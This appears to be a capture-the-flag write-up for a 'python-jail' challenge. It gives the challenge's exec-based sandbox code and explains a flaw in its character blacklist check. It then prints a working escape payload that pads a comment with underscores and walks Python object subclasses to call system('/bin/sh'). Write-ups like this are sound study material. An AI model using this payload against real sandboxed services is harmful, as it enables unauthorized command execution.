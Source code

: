 # python-jail

## problem

see [./Dockerfile](./Dockerfile)

```py
#!/usr/bin/env python 

blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

security_check = lambda s: any(c in blacklist for c in s) and s.count('_') < 50

def main():
    while True: 
        cmds = input("> ")
        if security_check(cmds):
            print("nope.")
        else:
            exec(cmds, {'__builtins__': None}, {})
    

if __name__ == "__main__":
    main()
```

## solution

here, the vulnerability is in the `security_check` function.

the security check makes sure the count of underscores is above 50 for the check to pass (to return `False`), so adding a comment and then a bunch of underscores works because the code is evaluated using exec

so the solution is as follows

```
().__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('/bin/sh') # ________________________________________________________________________________________________________________________________________________
```

builtins is None but we have the Dockerfile so we can get the subclasses of `object` and then find os._wrap_close and then get the system function to achieve RCE.
